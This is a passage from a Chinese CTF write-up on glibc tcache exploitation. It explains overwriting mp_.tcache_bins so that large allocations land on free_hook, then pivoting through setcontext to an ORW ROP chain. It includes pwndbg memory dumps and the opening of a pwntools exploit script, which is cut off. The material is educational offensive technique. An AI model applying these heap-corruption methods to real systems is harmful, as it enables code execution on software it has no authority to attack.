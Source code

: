 这里需要满足三个条件才可以进行`tcache_get`的调用，我们来看一下`tcache_bins`，该成员变量限制了可以放入`tcache`的堆块大小与`global_max_fast`类似。

```
pwndbg&gt; p mp_
$1 = `{`
  trim_threshold = 131072,
  top_pad = 131072,
  mmap_threshold = 131072,
  arena_test = 8,
  arena_max = 0,
  n_mmaps = 0,
  n_mmaps_max = 65536,
  max_n_mmaps = 0,
  no_dyn_threshold = 0,
  mmapped_mem = 0,
  max_mmapped_mem = 0,
  sbrk_base = 0x555555757000 "",
  tcache_bins = 64,
  tcache_max_bytes = 1032,
  tcache_count = 7,
  tcache_unsorted_limit = 0
`}`
pwndbg&gt; p &amp;mp_
$2 = (struct malloc_par *) 0x7ffff7fbb280 &lt;mp_&gt;
pwndbg&gt; x/20gx 0x7ffff7fbb280
0x7ffff7fbb280 &lt;mp_&gt;:   0x0000000000020000      0x0000000000020000
0x7ffff7fbb290 &lt;mp_+16&gt;:        0x0000000000020000      0x0000000000000008
0x7ffff7fbb2a0 &lt;mp_+32&gt;:        0x0000000000000000      0x0001000000000000
0x7ffff7fbb2b0 &lt;mp_+48&gt;:        0x0000000000000000      0x0000000000000000
0x7ffff7fbb2c0 &lt;mp_+64&gt;:        0x0000000000000000      0x0000555555757000
0x7ffff7fbb2d0 &lt;mp_+80&gt;:        0x0000000000000040      0x0000000000000408
0x7ffff7fbb2e0 &lt;mp_+96&gt;:        0x0000000000000007      0x0000000000000000
0x7ffff7fbb2f0 &lt;obstack_exit_failure&gt;:  0x0000000000000001      0x0000000001000000
0x7ffff7fbb300 &lt;__x86_raw_shared_cache_size_half&gt;:      0x0000000000800000      0x0000000001000000
0x7ffff7fbb310 &lt;__x86_shared_cache_size_half&gt;:  0x0000000000800000      0x0000000000008000
```

这里的`tcache_bins`默认是`0x40`，也就是`tcache`中堆块最大为`0x410`大小，如果我们将此成员变量改大，那么在之后我们分配`&gt;0x1000`的堆块的时候就可以从`tcache`中进行分配了。

但是这里涉及到一个`count`和`entry`的问题。首先来看`count`，由于之前没有堆块的释放，因此整个`pthread_tcache_struct`全部为`0`，只能看程序一开始的`0x200`堆块，因为该堆块全部被`memset`为了`\x01`，这里正好可以作为`tcache`的`count`。

那么利用之后的`8`字节任意写在对应的位置写入`free_hook`的值就可以直接分配到`free_hook`了。这里我选择的大小为`0x1510`。

到此可以覆写`free_hook`了，但是程序开启了沙箱，只能利用`setcontext`进行一下迁移栈地址了，我是将栈地址迁移到了`free_hook`附近，并在此处布置了`orw rop`。这里的详细内容可以看一下SROP。

### <a class="reference-link" name="EXP"></a>EXP

```
# encoding=utf-8
from pwn import *

file_path = "./pwn"
context.arch = "amd64"
context.log_level = "debug"
context.terminal = ['tmux', 'splitw', '-h']
elf = ELF(file_path)
debug = 1
if debug:
    p = process([file_path])
    gdb.attach(p, "b *$rebase(0xc60)\nb *$rebase(0xF2a)\n b malloc\nb free")
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
    one_gadget = [0xe6b93, 0xe6b96, 0xe6b99, 0x10af39]

```